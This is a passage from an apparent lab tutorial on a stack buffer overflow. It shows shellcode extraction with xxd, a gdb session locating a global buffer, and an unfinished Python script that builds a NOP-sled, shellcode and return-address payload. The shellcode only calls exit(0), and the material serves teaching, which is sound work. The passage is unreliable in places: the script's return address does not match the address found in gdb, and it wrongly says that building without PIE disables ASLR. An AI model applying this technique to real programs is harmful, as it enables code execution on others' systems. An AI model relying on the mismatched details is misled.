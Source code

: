 The numbers `48 31` and `b0 3c` are the op-codes or hexadecimal representations of the instructions `xor` and `mov` along with operands. The instructions start with `48 31` and end with `0f 05` . Next, we use `xxd` to get the hex-dump of the ELF `shellcode` and extract the instructions needed to perform the `exit(0)` syscall,

```bash
xxd -p shellcode | grep -A2 4831
```

```
000000000000000000000000000000004831c0b03c4831ff0f0500000000
000000000000000000000000000000000000000000000000000001000000
0400f1ff0000000000000000000000000000000012000000100001000010
```

We observe the sequence `4831c0b03c4831ff0f05` in the hex-dump above which are the op-codes and operand used to perform the `exit(0)` syscall. 

### Determining the Address of `buffer`
To determine the address of `buffer`, we use `gdb` (GNU Debugger) to print the address of the symbol `buffer`,

```bash
gdb ./main
```

```
(gdb) break vulnerable_function
Breakpoint 1 at 0x40115a
(gdb) run
Starting program: /home/shubham/remote-code-execution/main 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter some text: hello

Breakpoint 1, 0x000000000040115a in vulnerable_function ()
(gdb) next
Single stepping until exit from function vulnerable_function,
which has no line number information.
0x00000000004011b1 in main ()
(gdb) print &buffer
$1 = (char **) 0x7ffff7faf8b0 <buffer>
```

Thus, the address of `buffer` is `0x7ffff7faf8b0`. This address will not change as the executable `main` was compiled with the `--no-pie` flag that disable address space layout randomization (ASLR) i.e. position-independent code.

### Final Payload
To create the final payload that we inject the target program, we use the following Python script:

```python
import struct

# Shellcode extracted from xxd dump
shellcode = b"\x48\x31\xc0\xb0\x3c\x48\x31\xff\x0f\x05"

# Offset to return address: 32 (buffer) + 8 (saved RBP) = 40 bytes
offset = 40

buffer_addr = 0x7fffffffe000

# Payload: NOP sled + shellcode + padding + shellcode address
nop_sled = b"\x90" * (32 - len(shellcode))
payload = nop_sled + shellcode + b"A" * (offset - len(nop_sled + shellcode))
payload += struct.pack("<Q", buffer_addr)

with open("exploit.bin", "wb") as f:
```